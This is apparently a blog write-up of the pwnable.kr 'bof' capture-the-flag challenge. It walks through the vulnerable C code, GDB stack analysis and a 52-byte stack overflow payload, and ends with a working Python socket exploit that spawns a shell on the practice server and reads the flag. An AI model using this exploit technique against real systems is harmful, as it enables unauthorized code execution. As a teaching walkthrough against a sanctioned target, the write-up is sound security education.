







# [](#intro)Introduction

Let's go back to [Pwnable](https://pwnable.kr) and continue our journey collecting monster cards. Today, we are getting Smokie's card. Let's take a look at it!

# [](#level-description)Challenge description

The challenge description is:

> Nana told me that buffer overflow is one of the most common software vulnerability. 
>Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

I'm not sure if that is true, but it surely happens!

# [](#approach)Approach mindset

Let's change our approach mindset a bit for these kind of attacks:

1. Code review
2. Analyzing the binary
3. Crafting the attack
4. Solving


## [](#mindset-step0)Step 1 - Code review

Once we download the files from Pwnable, let's take a look at the challenge source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Let's dissect this code.

### `func` function

This function takes an integer as argument under the name of `key`. After that, it initializes a buffer variable called `overflowme` with 32 bytes size allocation. It uses the `gets()` method to get user input. This method is known for having security issues regarding buffer overflow. Nowadays, this function has become obsolete because of its danger. You can understand it more [here](https://stackoverflow.com/questions/1694036/why-is-the-gets-function-so-dangerous-that-it-should-not-be-used).

Right after the `gets()` line, we have an if statement that compares our `key` to `0xcafebabe`. If that holds, we spawn a shell. If not, then it just prints "Nah...".

### `main` function

This function starts the code by calling `func`, passing the `key` argument as `0xdeadbeef`. This indicates that, from the code's flow, `key` will never be equal `0xcafebabe`, unless we overflow it!

## [](#mindset-step2)Step 2 - Analyzing the binary

Now that we understand how the code works, let's use GDB to analyze the binary and discover how we can overflow the stack, making the `key` variable equals `0xcafebabe`. Starting GDB with `gdb ./bof`, the first thing we should do is to add a breakpoint at `func`:

```bash
(gdb) b func
Breakpoint 1 at 0x632
(gdb) r
```

The idea here is to disassemble the `func` method to grab the memory address of the if statement:



As we can see, the last line of the image above has `cmpl` instruction, which is used to compare two things. It is comparing `0xcafebabe` with the value in `%ebp`. Let's add a break point exactly there:

```bash
(gdb) b *0x56555654
Breakpoint 2 at 0x56555654
(gdb) c
Continuing.
overflow me : 
AAAAAAAAAAAAA
```

We pass a small input to check the stack right afterwards. Note that our input starts showing on the stack on the top-right corner of the image below, whereas the `0xdeadbeef` address on the bottom-left corner, which is the value stored on the `key` variable.



Every 4 A's in a row produces a `0x41`. This means we need to count how many addresses appear between our first `0x41414141` until the very last one before `0xdeadbeef`. There are 13 of them, and since at each address we have 4 bytes, we need to multiply 13 by 4, which is 52. This is the size of our overflow string in order to overwrite the `key` variable:



## [](#mindset-step3)Step 3 - Crafting the attack

We need to pass a payload that not only overflows the stack, but overwrites `0xdeadbeef` with `0xcafebabe`. Since this is probably a little-endian system, our payload must be `A*52 + \xbe\xba\xfe\ca`. Let's test it locally:



It seems that this payload did not work. After a bit of research, I realized that the `gets()` function within `./bof` reads the provided input until a newline or EOF is encountered. As `cat` concludes its execution immediately after sending the payload, the pipe is closed, leading `gets()` to encounter an EOF. This premature EOF potentially causes `./bof` to proceed, triggering the stack smashing protection mechanism before the payload could effectively manipulate the program's flow.

To fix this, we need to ensure the pipe isn't closed prematurely. We can achieve such feat by adding another cat command at the end:



Ok. since this works locally, let's write a python script that will use sockets instead of this weird piping problem.

```python
import socket

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.connect(("pwnable.kr", 9000))
    sock.send(b'A' * 52 + b'\xbe\xba\xfe\xca\n')
    sock.send(b'ls\n')
    print(sock.recv(128).decode())
```

This will make the system run `ls` and list its files:



Great! It works!

## [](#mindset-step4)Step 4 - Solving!

Now that we have an exploit and we know where the flag is, we just need to change the line `sock.send(b'ls\n')` in our Python script to `sock.send(b'cat flag\n')` and run again:



And there we have it!

# [](#conclusions)Conclusion

In this CTF, we were able to exploit a buffer overflow vulnerability by examining the source code, then the binary. Then, we found where in the stack the `key` variable was located and calculated the offset to overwrite it. A simple Python script did the job of retrieving the flag for us. Enjoy your newly dropped Smokie card. It was well deserved!


I hope you liked this write-up and learned something new. As always, don't forget to do your **research!**

<a href="/">Go back</a>

